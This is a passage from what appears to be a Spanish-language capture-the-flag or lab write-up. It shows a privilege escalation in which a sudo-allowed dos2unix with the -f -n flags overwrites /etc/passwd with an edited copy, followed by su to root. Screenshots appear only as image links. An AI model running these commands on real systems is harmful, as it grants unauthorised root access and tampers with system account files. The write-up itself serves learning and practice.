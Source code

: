 ![[Pasted image 20241105210916.png]]

Entonces modificamos el archivo que acabamos de crear

~~~ bash
nano /tmp/passwd
~~~

![[Pasted image 20241105211157.png]]

## Root time

Ahora preparamos el entorno para usar ambos archivos en nuestra escalada de privilegios

~~~ bash
passwd_new=/tmp/passwd
passwd_old=/etc/passwd
~~~

![[Pasted image 20241105211934.png]]

Ejecutamos `dos2unix` con `sudo` y usando ambos archivos

~~~ bash
sudo /usr/bin/dos2unix -f -n "$passwd_new" "$passwd_old"
~~~

![[Pasted image 20241105211802.png]]

Finalmente cambiamos al usuario `root` con el comando `su`

~~~ bash
su root
~~~

![[Pasted image 20241105211822.png]]


